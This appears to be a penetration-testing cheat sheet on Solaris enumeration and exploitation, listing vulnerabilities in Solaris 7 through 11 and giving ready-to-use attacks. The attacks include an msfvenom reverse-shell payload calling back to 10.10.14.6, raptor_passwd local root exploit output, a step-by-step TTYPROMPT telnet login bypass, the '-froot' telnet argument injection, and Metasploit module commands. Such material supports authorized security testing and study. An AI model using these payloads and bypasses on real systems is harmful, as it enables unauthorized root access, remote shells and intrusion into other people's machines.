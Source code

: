 ```yaml
---
description: Information gathering and exploitation
---
```


# Solaris

## Enumeration

**View patches** 

`showrev -p` 

**Installed packages:** 

`Pkginfo  OR pkginfo -x`

**Host information**

`uname -a`

**Show IP interface:** 

`Ifconfig -a` 

**Process list:** 

`/usr/ucb/ps -auxww` 

## Common Solaris Vulnerabilities

### Solaris 7

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 8

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* no exploit - sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### solaris 9:

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 10

* fuser TELNET - authentication bypass through -f command - can be manually exploited 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root.

### Solaris 11

* fuser TELNET - authentication bypass through -f command - can be manually exploited

## **Exploits**

### **Solaris 8 finger**

`finger '1 2 3 4 5 6 7 8 9 0'@target`

### **Solaris exploits**

https://github.com/0xdea/exploits 

#### raptor\_passwd

```text
$ gcc raptor_passwd.c -o passwd -ldl -Wall
$./raptor_passwd p@ssw0rd
raptor_passwd.c - passwd circ() local, Solaris/SPARC 8/9
Copyright (c) 2004 Marco Ivaldi <raptor@0xdeadbeef.info>
Using SI_PLATFORM : SUNW,UltraAX-i2 (5.9)
Using stack base : 0xffbffffc
Using var address : 0xffbffb58
Using rwx_mem address : 0xff3f6004
Using sc address : 0xffbfff9c
Using ff address : 0xffbfff58
Using strcpy() address : 0xff3e0288
"Pai Mei taught you the five point palm exploding heart technique?" -- Bill
"Of course." -- Beatrix Kidd0, alias Black Mamba, alias The Bride (KB Vol2)
# id;uname -a;uptime;
uid=0(root) gid=9610(gengrp) egid=3(sys)
SunOS wks1 5.9 Generic sun4u sparc SUNW,UltraAX-i2
1:53pm up 1 day(s), 16:32, 1 user, load average: 0.00, 0.00, 0.01
#
```

### **Msfvenom payload** 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf`

###  TTYPROMPT exploit

Solaris TTYPROMPT Security Vulnerability \(Telnet\) 

This vulnerability is very simple to exploit, since it does not require any code to be compiled by an attacker. The vulnerability only requires the attacker to simply define the environment variable TTYPROMPT to a 6-character string, inside telnet. Jonathan believes this overflows an integer inside login, which specifies whether the user has been authenticated \(just a guess\). 

Once connected to the remote host, you must type the username, followed by 64 " c"s, and a literal "\n". You will then be logged in as the user without any password authentication. This should work with any account except root \(unless remote root login is allowed\).  

**Example**:

```text
coma% telnet  
telnet> environ define TTYPROMPT abcdef  
telnet> o localhost  
SunOS 5.8  
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c\n  
Last login: whenever  
$ whoami bin  
```

**Metasploit:**

 Solaris in.telnetd TTYPROMPT Buffer Overflow

```text
msf > use exploit/solaris/telnet/ttyprompt
```

### **Telnet exploit \(fuser\)**

exploits the argument injection vulnerability in the telnet daemon \(in.telnetd\) of Solaris 10 and 11.  

**Command line:** 

```text
telnet -l "-fbin" target_address 
Or also 
telnet -l "-froot" 192.168.0.1 
```

**Metasploit:** 

msf &gt; use exploit/solaris/telnet/fuser 

